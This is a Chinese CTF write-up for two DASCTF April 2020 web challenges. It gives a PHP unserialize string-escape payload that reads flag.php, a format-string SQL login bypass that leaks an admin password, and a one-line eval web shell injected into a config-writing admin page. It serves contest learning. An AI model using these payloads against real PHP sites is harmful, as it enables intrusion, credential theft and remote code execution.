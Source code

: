 ```yaml
---
layout: post
title: DASCTF April Web Writeup
data: 2020-04-25
categories: Writeups
tags: 
 - CTF
 - Writeup
description: 
excerpt_separator: ""
---
```


# Ezunserialize

## 题目描述

直接给了源码：

```php
<?php
show_source("index.php");
function write($data) {
    return str_replace(chr(0) . '*' . chr(0), '\0\0\0', $data);
}

function read($data) {
    return str_replace('\0\0\0', chr(0) . '*' . chr(0), $data);
}

class A{
    public $username;
    public $password;
    function __construct($a, $b){
        $this->username = $a;
        $this->password = $b;
    }
}

class B{
    public $b = 'gqy';
    function __destruct(){
        $c = 'a'.$this->b;
        echo $c;
    }
}

class C{
    public $c;
    function __toString(){
        //flag.php
        echo file_get_contents($this->c);
        return 'nice';
    }
}

$a = new A($_GET['a'],$_GET['b']);
//省略了存储序列化数据的过程,下面是取出来并反序列化的操作
$b = unserialize(read(write(serialize($a))));
```

## 解题思路

思路很明确由B类到C类读取flag.php，不过看起来只能传入给A类的字符串，需要序列化逃逸。

read()函数会将`'\0\0\0'`替换为`"\0*\0"`，注意一下，前者由单引号围绕，不表示转义，即包含6个字符，而后者由双引号包围，转义为空白符，即包含三个字符。

先构造理想的序列化字符串：

```php
<?php
$c = new C();
$b = new B();

$c->c = "flag.php";
$b->b = $c;
echo serialize(new A("foo", $b));
?>
```

结果：

```php
O:1:"A":2:{s:8:"username";s:3:"foo";s:8:"password";O:1:"B":1:{s:1:"b";O:1:"C":1:{s:1:"c";s:8:"flag.php";}}}
```

需要吞掉24个字符，于是提交的序列化字符串为：

```shell
O:1:"A":2:{s:8:"username";s:48:"\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0";s:8:"password";s:74:";";s:8:"password";O:1:"B":1:{s:1:"b";O:1:"C":1:{s:1:"c";s:8:"flag.php";}}}";}
```

Payload：

```
?a=%5C0%5C0%5C0%5C0%5C0%5C0%5C0%5C0%5C0%5C0%5C0%5C0%5C0%5C0%5C0%5C0%5C0%5C0%5C0%5C0%5C0%5C0%5C0%5C0
&b=%3B%22%3Bs%3A8%3A%22password%22%3BO%3A1%3A%22B%22%3A1%3A%7Bs%3A1%3A%22b%22%3BO%3A1%3A%22C%22%3A1%3A%7Bs%3A1%3A%22c%22%3Bs%3A8%3A%22flag.php%22%3B%7D%7D%7D
```

## 备注

1. 这道题就是完全没有注意到单引号，一直在想属性的访问控制什么的。

# babytricks

## 题目描述

一个登录框，源码中有提示

```html
<!-- tips:select * from user where user='$user' and passwd='%s'-->
```

## 解题思路

很明显的格式化字符串，Payload：

```
POST：user=admin%1$c
passwd=39
```

有个跳转，输出了一个数组：

```
Array(
    [0] => 1
    [id] => 1
    [1] => admin
    [user] => admin
    [2] => GoODLUcKcTFer202OHAckFuN
    [passwd] => GoODLUcKcTFer202OHAckFuN
)
```

应该是账号密码了，然后说前台什么都没有了，那就去后台，扫一下目录，可以看到源码：

```php
Your sandbox: ./shells/LYmjizTyfRfRj1bz/ set your shell
<?php
error_reporting(0);
session_save_path('session');
session_start();
require_once './init.php';
if($_SESSION['login']!=1){
    die("<script>window.location.href='./index.php'</script>");
}
if($_GET['shell']){
    $shell= addslashes($_GET['shell']);
    $file = file_get_contents('./shell.php');
    $file = preg_replace("/\\\$shell = '.*';/s", "\$shell = '{$shell}';", $file);
    file_put_contents('./shell.php', $file);
}else{
    echo "set your shell"."<br>";
    chdir("/");
    highlight_file(dirname(__FILE__)."/admin.php");
}
?>
```

很简单：

```
?shell=;eval($_POST['cmd']);
```

然后发现执行系统命令的很多函数被禁用了，结合题目给了so文件，说明要LD_PRELOAD。

## 备注

1. LD_PRELOAD这里要深入一下了。